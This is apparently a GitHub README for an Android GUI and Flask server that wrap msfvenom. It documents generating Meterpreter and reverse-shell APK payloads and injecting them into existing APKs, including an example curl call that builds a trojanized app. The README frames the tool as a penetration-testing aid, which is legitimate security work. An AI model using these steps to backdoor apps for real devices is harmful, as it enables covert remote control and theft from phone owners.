 # MSFVenom-GUI (Android Application)

An Android application that provides a graphical user interface (GUI) for MSFVenom, making payload generation and APK injection easy and accessible on your mobile device.

## Features

- **APK Payload Generation**: Generate Android payloads directly as APK files
- **APK Injection**: Inject payloads into existing APK files (via companion server)
- **Multiple Payload Types**: Support for various Android payloads including Meterpreter and shell payloads
- **Network-Based Architecture**: Uses a companion server for msfvenom execution
- **User-Friendly Interface**: Intuitive GUI with real-time feedback

## Architecture

Due to Android security restrictions, this application uses a hybrid architecture:

1. **Android App**: Provides the user interface and handles user input
2. **Companion Server**: Runs msfvenom commands and serves generated payloads
3. **Network Communication**: App communicates with server via HTTP API

## Installation & Setup

### 1. Install Metasploit Framework (Server Side)

On your server/computer (Linux/macOS):

```bash
# Install Metasploit Framework
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall

# Verify installation
msfvenom --help
```

### 2. Set Up the Companion Server

```bash
# Install Python dependencies
pip3 install flask

# Run the server
python3 msfvenom_server.py
```

The server will start on `http://localhost:8080` by default.

### 3. Install the Android App

1. Build the APK using Android Studio or Gradle:

   ```bash
   ./gradlew assembleRelease
   ```

1. Install the generated APK on your Android device
1. Grant necessary permissions when prompted

## Usage

### Basic Payload Generation

1. **Launch the app** on your Android device
2. **Configure server connection**:
   - Enter your server URL (e.g., `http://192.168.1.100:8080`)
   - Tap "Test Server Connection" to verify connectivity
3. **Set payload parameters**:
   - Select payload type from dropdown
   - Enter LHOST (your IP address)
   - Enter LPORT (listening port)
4. **Generate payload**:
   - Tap "Generate APK Payload"
   - Wait for generation to complete
   - APK will be saved to Downloads folder

### APK Injection (Server API)

You can also inject payloads into existing APK files using the server API:

```bash
curl -X POST \
  -F "apk=@/path/to/original.apk" \
  -F "payload=android/meterpreter/reverse_tcp" \
  -F "lhost=192.168.1.100" \
  -F "lport=4444" \
  http://localhost:8080/inject \
  -o injected_payload.apk
```

## API Endpoints

The companion server provides the following endpoints:

- `GET /status` - Health check
- `GET /generate` - Generate payload
- `POST /inject` - Inject payload into APK
- `GET /payloads` - List available payloads

## Supported Payloads

- `android/meterpreter/reverse_tcp`
- `android/meterpreter/reverse_https`
- `android/shell/reverse_tcp`
- `android/shell/reverse_https`

## Security Considerations

- **Network Security**: Use HTTPS in production environments
- **Access Control**: Implement authentication for the server API
- **Firewall**: Restrict server access to trusted networks only
- **File Cleanup**: Server automatically cleans up temporary files

## Troubleshooting

### Common Issues

1. **Connection Failed**:
   - Verify server is running
   - Check firewall settings
   - Ensure correct IP address and port

2. **Permission Denied**:
   - Grant storage permissions to the app
   - Check Android security settings

3. **Payload Generation Failed**:
   - Verify msfvenom is installed on server
   - Check server logs for detailed error messages

### Server Logs

Monitor server logs for debugging:

```bash
python3 msfvenom_server.py
```

## Requirements

### Android App

- Android 12+ (API level 31+)
- Storage permissions
- Network access

### Server

- Linux/macOS/Windows
- Python 3.6+
- Metasploit Framework
- Flask (`pip3 install flask`)

## Disclaimer

This application is for educational and authorized penetration testing purposes only. Do not use it on systems you do not own or have explicit permission to test. The authors are not responsible for any misuse of this software.

## License

This project is provided as-is for educational purposes. Use responsibly and in accordance with applicable laws and regulations.

---

Created by [webmaster-exit-1](https://github.com/webmaster-exit-1)
